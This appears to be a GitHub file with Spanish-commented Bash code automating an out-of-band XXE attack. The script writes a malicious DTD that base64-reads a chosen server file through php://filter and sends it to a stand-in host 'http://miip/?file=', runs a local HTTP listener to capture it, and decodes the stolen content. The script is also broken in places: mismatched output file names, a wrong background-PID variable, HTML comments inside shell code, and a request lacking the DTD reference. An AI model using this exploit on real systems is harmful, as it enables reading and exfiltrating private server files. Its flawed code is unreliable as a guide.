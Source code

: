 # XXE_OOB

#Metete en el codigo para ver comentado cada comando

#!/bin/bash

echo -ne "\n[+] Introduce el archivo a leer: " && read -r miarchivo
<!--e para aplicar el salto de linea (caracteres especiales
-n para poder meter el input en la misma linea que el echo
 read lee el input del usuari y lo guarda en mi rchivo
-r para que acepte espacios y de todo, guarde el input literal-->

malicious_dtd=""" # triple comilla para pillar varias lineas de codigo
<!--ojo por que hayque escapar las comillas con \-->
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$miarchivo\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://miip/?file=%file; '>\"> 
<!--ojo por que al crear una entidad dentro de otra entidad, hay que representarla en hexadecimal
 para representar % en hexadecimal se deberia de poner %#x y luego su valor en hexadecimal y luego ;, que es 25 -> &#x25;
 exfil es una entidad dentro de otra 
 ahora habria que llamar a las entidades eval y exfil para que tdo sea ejecutado.-->
%eval;
%exfil;
<!--file no hace falta por que se llama desde exfil-->
"""

echo $malicious_dtd > malicious.dtd
<!--tenemos que volcar todo en el archivo, por que en la peticion se leera de ese archivo-->

python3 -m http.server 80 &>respuesta &
<!--mandamos el sterr y el stdout a respuesta y lo ponemos en segundo plano-->
PID=!$
<!--!$ hace referencia l elemento anterior y si ha sido puesto en segundo plano se guarda si PID-->
sleep 1 
<!--daremos unos segundos a que se levnate el servidor-->


<!--aqui meteremos la peticion, podemos obtenerla dl raw de burpsuite, por ejemplo:-->

curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?><root><name>Juan</name><tel>6666666666</tel><email>juan@mola.com</email><password>juan123</password></root>'
<!--s , silencioso, no mostrara output
-X , indica el metodo, en este caso por post
process.php es a donde se hace la petición
-d , incluir datos que queramos que viajen con la peticion-->

cat reponse | grep -oP "/?file=\K[^-*\s]+" | base64 -d

kill -9 $PID
<!--matamos l proceso del PID-->
wait $PID 2>/dev/null
<!--speraremos a que muera el PID y redirigiremos el stout al dev null para no ver el process killed-->




<!--Ahora se guarda y cuando se ejecute, epodremos hacer cat response  ver el output guardado-->


